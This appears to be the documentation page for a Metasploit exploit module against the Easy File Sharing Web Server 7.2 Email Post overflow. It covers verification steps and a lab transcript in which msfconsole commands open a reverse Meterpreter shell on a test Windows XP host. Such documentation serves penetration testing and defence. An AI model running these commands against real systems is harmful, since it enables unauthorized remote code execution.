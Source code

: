 ## Description

This module exploits a vulnerability in the Easy File Sharing Web Server application, by exploiting an overflow in the Email Post parameter, through DEP bypass via ROP chain.

This module allows a remote attacker to get a payload executed under the context of the user running the Easy File Sharing application

## Vulnerable Application

[Easy File Sharing](http://www.sharing-file.com/) is a file sharing software that allows visitors to upload/download files easily through a Web Browser (IE, Firefox, Chrome etc.).

This module has been tested successfully on

* Easy File Sharing 7.2 on Windows XP En Sp3

Installers:

[Easy File Sharing Installers](http://www.sharing-file.com/efssetup.exe)

## Verification Steps

1. Start `msfconsole`
2. Do: `use exploits/windows/http/easyfilesharing_post`
3. Do: `set rhosts [IP]`
4. Do: `exploit`
5. You should get your payload executed

## Scenarios

```
root@kali:~$ msfconsole -q
msf > use exploit/windows/http/easyfilesharing_post
msf exploit(easyfilesharing_post) > set RHOST 192.168.56.101
RHOST => 192.168.56.101
msf exploit(easyfilesharing_post) > exploit
 
[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Sending stage (957487 bytes) to 192.168.56.101
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.101:1253) at 2017-06-17 22:45:34 +0200
 
meterpreter > sysinfo
Computer    	: MM
OS          	: Windows XP (Build 2600, Service Pack 3).
Architecture	: x86
System Language : en_US
Domain      	: WORKGROUP
Logged On Users : 2
Meterpreter 	: x86/windows
meterpreter > exit
[*] Shutting down Meterpreter...
 
[*] 192.168.56.101 - Meterpreter session 1 closed.  Reason: User exit
msf exploit(easyfilesharing_post) >
```
